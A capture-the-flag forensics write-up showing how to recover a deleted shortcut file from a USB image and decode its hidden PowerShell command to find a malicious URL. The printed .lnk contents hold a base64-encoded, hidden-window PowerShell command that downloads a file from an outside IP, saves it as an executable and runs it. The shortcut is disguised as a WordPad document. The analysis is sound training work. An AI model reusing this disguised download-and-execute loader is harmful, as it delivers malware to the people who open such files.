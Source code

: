 # Where all problems start 1
#### forensics - [HeroCTF](../main.md)

## Challenge description:
> For a change of pace, a company has been attacked again... Nevertheless, the means used here is quite original, indeed, it would be apparently a food delivery man who would be at the origin of the initial compromise... For your first analysis, you will have to found what the USB key that the delivery man put in the computer contains.
>
> Could you provide us the malicious URL used to download something ?
>
> Download file: [dump.7z](../assets/dump.7z)

## Solution 
After we unzip the file, we can see what it is with the `file` command.
```
$ file usb.dump
usb.dump: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "mkfs.fat", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 124, hidden sectors 32, sectors 7831282 (volumes > 32 MB), FAT (32 bit), sectors/FAT 7640, reserved 0x1, serial number 0x9c286c52, unlabeled
```
We can use the `fls` command (part of sleuthkit) to see the files inside. This is useful as it also shows deleted commands, denoted by an `*`.
```
$ fls usb.dump
r/r * 5:        Important_Document.lnk
r/r 7:  README.txt
v/v 125055523:  $MBR
v/v 125055524:  $FAT1
v/v 125055525:  $FAT2
V/V 125055526:  $OrphanFiles
```
The `Important_Document.lnk` file seems interesting, and we can use the `icat` command to extract it from the dump.
```
$ icat usb.dump 5 > Important_Document.lnk
$ cat Important_Document.lnk
v1.0l2�FS�k powershell.exeNerShe�FS�k�T8�.N�xz?powershell.exeh-g�v��C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe�-Nop -sta -noni -w hidden -encodedCommand YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA==0C:\Programmes\Windows NT\Accessories\wordpad.exe�%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe�%�
                                                              �wN���]N�D.��Q���`�Xdesktop-ji20hrm0gF&_zE���]���R�e����^
                                                                                                                       )M&�0gF&_zE���]���R�e����^
                                                                                                                                                 )M&��	��1SPS�XF�L8C���&�m�q/S-1-5-21-1162904530-3654154924-4196022673-100091SPS�mD��pH�H@.�=x�hH�<���A��7v��)
```
While it isn't completely in plaintext, there is an encoded command in PowerShell. We can use Cyberchef to decode it.

![Screenshot of Cyberchef](../assets/ksnip_20220529-172825.png)

The requested URL is our flag :)
<details> 
    <summary>Flag</summary>
Hero{http://146.59.156.82/img.png}
</details>
